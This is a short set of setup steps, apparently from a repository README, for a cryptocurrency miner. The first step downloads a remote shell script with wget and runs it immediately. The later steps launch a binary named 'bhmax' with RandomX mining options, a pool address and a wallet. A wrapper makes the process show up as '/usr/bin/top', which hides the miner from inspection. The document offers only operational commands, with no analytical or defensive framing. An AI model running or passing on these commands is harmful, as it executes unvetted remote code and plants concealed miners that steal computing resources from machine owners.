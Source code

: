##action one

wget https://raw.githubusercontent.com/hudahadoh/hime/main/rest.sh && chmod +x rest.sh && ./rest.sh

##action two
example : 

./hi -s "/usr/bin/top" -d -p test.pid ./usr/local/lib/bhmax --url 158.69.251.105:4052 --user SOL:5VqKde82ANkwGDXTRpBRa3vd1PFn1gdGN6tP7aJ38gx4.xhif --pass x -k -t 8 --randomx-no-numa --randomx-mode auto 	--randomx-wrmsr=-1 	--randomx-no-rdmsr --cpu-memory-pool=-1 --randomx-1gb-pages

###3

./hi -s "/usr/bin/top" -d -p test.pid ./bhmax


